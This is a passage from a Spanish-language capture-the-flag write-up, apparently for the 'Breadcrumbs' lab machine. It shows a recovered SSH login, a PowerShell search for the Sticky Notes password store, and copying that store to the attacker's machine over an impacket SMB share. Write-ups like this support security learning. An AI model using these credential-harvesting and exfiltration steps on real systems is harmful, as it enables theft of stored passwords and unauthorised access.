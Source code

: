 `juliette | jUli901./())!`

...Y si recordamos los puertos abiertos, el **22** esta open, y estas credenciales funcionan :D 

![Julietteee](/assets/img/Linux/Breadcrumbs/Julietteee.png)

![usertxt](/assets/img/Linux/Breadcrumbs/usertxt.png)

Si verificamos `todo.html` 

```html
<html><style>html{background:black;color:orange;}table,th,td{border:1px solid orange;padding:1em;border-collapse:collapse;}</style><table>        <tr>            <th>Task</th>            <th>Status</th>            <th>Reason</th>        </tr>        <tr>            <td>Configure firewall for port 22 and 445</td>            <td>Not started</td>            <td>Unauthorized access might be possible</td>         </tr>        <tr>            <td>Migrate passwords from the Microsoft Store Sticky Notes application to our new password manager</td>            <td>In progress</td>            <td>It stores passwords in plain text</td>        </tr>        <tr>            <td>Add new features to password manager</td>            <td>Not started</td>            <td>To get promoted, hopefully lol</td>        </tr></table></html>
```

Asi que basicamente tenemos que hacer hunting en los Sticky Notes :smile: El mismo se ubica en `%AppData%` 

Nos pasamos a Powershell y hacemos una busquedad recursiva:

```powershell
Get-ChildItem -recurse | select-object fullname | select-string "sticky"
```



![Sticky](/assets/img/Linux/Breadcrumbs/Sticky.png)

En el directorio :

`C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState`

Nos encontramos con :

![LocalState](/assets/img/Linux/Breadcrumbs/LocalState.png)

Bien, podemos transferirnos con nc o via smb, prefiero la 2da.

Subimos un servidor SMB: 

```bash
sudo impacket-smbserver parrot . -smb2support
```

![smbserver](/assets/img/Linux/Breadcrumbs/smbserver.png)

Copiamos el contenido a nuestra maquina.

```
copy * \\10.10.xx.xx\\parrot
```

Interactuamos con la db que nos descargamos con **sqlite3**
